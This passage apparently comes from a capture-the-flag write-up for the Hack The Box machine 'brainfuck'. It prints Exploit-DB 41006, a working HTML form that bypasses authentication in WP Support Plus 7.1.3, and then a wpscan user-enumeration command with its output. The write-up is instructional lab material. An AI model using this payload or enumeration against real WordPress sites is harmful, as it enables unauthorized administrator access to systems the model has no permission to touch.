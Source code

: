 ```searchsploit -x 41006.txt```
```
# Exploit Title: WP Support Plus Responsive Ticket System 7.1.3 Privilege Escalation
# Date: 10-01-2017
# Software Link: https://wordpress.org/plugins/wp-support-plus-responsive-ticket-system/
# Exploit Author: Kacper Szurek
# Contact: http://twitter.com/KacperSzurek
# Website: http://security.szurek.pl/
# Category: web
 
1. Description

You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().

http://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html

2. Proof of Concept

<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>

Then you can go to admin panel.
/usr/share/exploitdb/exploits/php/webapps/41006.txt (END)
```
According to the [documentation](https://www.exploit-db.com/exploits/41006), this vulnerability allows you to bypass authentication by logging in as anyone without knowing the password. You do however need a valid username for the attack to work. Therefore, let’s use wpscan to enumerate usernames.

wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate u

```
[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
